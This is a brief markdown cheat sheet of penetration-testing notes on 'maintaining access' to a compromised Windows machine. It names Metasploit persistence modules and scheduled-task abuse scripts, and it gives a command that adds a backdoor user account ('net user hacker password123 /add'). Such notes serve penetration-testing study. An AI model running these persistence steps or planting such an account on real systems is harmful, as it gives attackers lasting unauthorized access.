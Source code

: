 #cybersecurity #hacking #penetration-testing 
#persistence

# Maintaining Access

## Persistence Scripts
- run ``persistence -h``
- ``exploit/windows/local/persistence``
- ``exploit/windows/local/registry_persistence``

## Scheduled Tasks
- run ``scheduleme``
- run ``schtaskabuse``

## Add a user
- net user hacker password123 /add 